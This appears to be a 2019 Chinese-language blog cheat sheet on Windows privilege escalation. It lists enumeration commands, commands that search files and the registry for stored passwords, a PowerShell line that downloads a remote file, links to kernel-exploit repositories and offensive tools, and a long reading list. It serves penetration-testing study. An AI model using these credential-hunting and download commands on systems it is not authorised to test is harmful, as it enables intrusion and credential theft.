 ```yaml
---
layout: default
title:  "windows提权"
date:   2019-03-03 07:16
categories: post
---
```


Windows常用命令

命令  描述
systeminfo  打印系统信息
whoami  获得当前用户名
whoami /priv  当前帐户权限
ipconfig  网络配置信息
ipconfig /displaydns  显示DNS缓存
route print  打印出路由表
arp -a  打印arp表
hostname  主机名
net user  列出用户
net user UserName  关于用户的信息
net use \SMBPATH Pa$$w0rd /u:UserName  连接SMB
net localgroup  列出所有组
net localgroup GROUP  关于指定组的信息
net view \127.0.0.1  会话打开到当前计算机
net session  开放给其他机器
netsh firewall show config  显示防火墙配置
DRIVERQUERY  列出安装的驱动
tasklist /svc  列出服务任务
net start  列出启动的服务
dir /s foo  在目录中搜索包含指定字符的项目
dir /s foo == bar  同上
sc query  列出所有服务
sc qc ServiceName  找到指定服务的路径
shutdown /r /t 0  立即重启
type file.txt  打印出内容
icacls “C:\Example”  列出权限
wmic qfe get Caption,Description,HotFixID,InstalledOn  列出已安装的布丁
(New-Object System.Net.WebClient).DownloadFile(“http://host/file”,”C:\LocalPath”)  利用ps远程下载文件到本地
accesschk.exe -qwsu “Group”  修改对象（尝试Everyone，Authenticated Users和/或Users）

参考url：https://ss64.com/nt/
提权exp推荐

https://github.com/SecWiki/windows-kernel-exploits
https://www.exploit-db.com/local/
https://pentestlab.blog/2017/04/24/windows-kernel-exploits/
搜索系统上可疑敏感文件

dir C:\*vnc.ini /s /b /c
或者在名称中包含关键词的项目：

dir C:\ /s /b /c | findstr /sr \*password\*
或者可以在文件内容中搜索password之类的关键字：

findstr /si password \*.txt | \*.xml | \*.ini
可以查询注册表，例如，字符串password：

reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
常用工具

Metasploit
Sherlock
windows-privesc-check
Windows-Exploit-Suggester
PowerUp, now part of PowerSploit
Nishang
推荐阅读：

Windows权限升级基础
https://www.fuzzysecurity.com/tutorials/16.html

Windows权限升级第1部分：本地管理员权限
https://blog.netspi.com/windows-privilege-escalation-part-1-local-administrator-privileges/

Pentesters的Windows权限提升方法
https://pentest.blog/windows-privilege-escalation-methods-for-pentesters/

“嗯，快速升级”常见的Windows权限升级向量
https://toshellandback.com/2015/11/24/ms-priv-esc/

自动执行Windows权限提升
http://resources.infosecinstitute.com/automating-windows-privilege-escalation/

Windows 8上的Extreme Privilege Escalation
https://www.blackhat.com/docs/us-14/materials/us-14-Kallenberg-Extreme-Privilege-Escalation-On-Windows8-UEFI-Systems.pdf

滥用令牌权限进行Windows本地权限提升
https://foxglovesecurity.com/2017/08/25/abusing-token-privileges-for-windows-local-privilege-escalation/

Microsoft Windows令牌绑定权限提升漏洞
https://tools.cisco.com/security/center/viewAlert.x?alertId=15702

您对GPP了解多少？
https://www.toshellandback.com/2015/08/30/gpp/

Windows操作系统中的Privelege升级
http://www.cs.toronto.edu/~arnold/427/15s/csc427/indepth/privilege-escalation/privilege-escalation-windows.pdf

滥用EOP的令牌权限
https://github.com/hatRiot/token-priv

利用弱文件夹权限提升权限
http://www.greyhathacker.net/?p=738

Metasploit Unleashed：特权升级
https://www.offensive-security.com/metasploit-unleashed/privilege-escalation/

位操作：将系统令牌作为普通用户窃取
https://zerosum0x0.blogspot.nl/2016/02/bits-manipulation-stealing-system.html

不带引号的服务路径
https://www.commonexploits.com/unquoted-service-paths/

Windows中的权限提升
https://codemuch.tech/2017/05/14/priv-esc-win.html

SysInternals AccessChk工具
https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk

AccessChk.exe使用指南
https://blogs.technet.microsoft.com/secguide/2008/07/21/how-to-use-accesschk-exe-for-security-compliance-management/

SubInACL.exe下载
https://www.microsoft.com/en-us/download/details.aspx?id=23510

当我输入getsystem时会发生什么
https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/

动态链接库搜索顺序
https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx

进程监视器下载
https://docs.microsoft.com/en-us/sysinternals/downloads/procmon

动态链接库安全性
https://msdn.microsoft.com/en-us/library/windows/desktop/ff919712(v=vs.85).aspx

Windows文件和文件夹权限指南
https://msdn.microsoft.com/en-us/library/bb727008.aspx

SECWIKI
https://github.com/SecWiki

Acess Tokens
https://msdn.microsoft.com/en-us/library/windows/desktop/aa374909(v=vs.85).aspx

访问令牌的工作原理
https://technet.microsoft.com/en-us/library/cc783557(v=ws.10).aspx

Windows REG参考
https://ss64.com/nt/reg.html

Windows CMD参考
https://ss64.com/nt/

如何使用Regedit
https://www.techsupportalert.com/content/learn-how-use-windows-registry-editor-regedit-one-easy-lesson.htm

调用-WCMDump
https://securityonline.info/invoke-wcmdump-dump-windows-credentials-from-the-credential-manager/

WMIC命令参考
https://www.computerhope.com/wmic.htm

PowerShell参考
https://ss64.com/ps/

penetration-testing-ninjitsu-with-ed
http://carnal0wnage.blogspot.com/2008/02/penetration-testing-ninjitsu-with-ed.html

DLL劫持易受攻击的应用程序
https://www.exploit-db.com/dll-hijacking-vulnerable-applications/

Windows/Linux本地特权升级研讨会
https://github.com/sagishahar/lpeworkshop

如何使用组策略劫持攻击拥有任何Windows网络
https://labs.mwrinfosecurity.com/blog/how-to-own-any-windows-network-with-group-policy-hijacking-attacks/

真实世界中的Pentesting：组策略Pwnage
https://blog.rapid7.com/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

Windows内核漏洞利用
https://pentestlab.blog/2017/04/24/windows-kernel-exploits/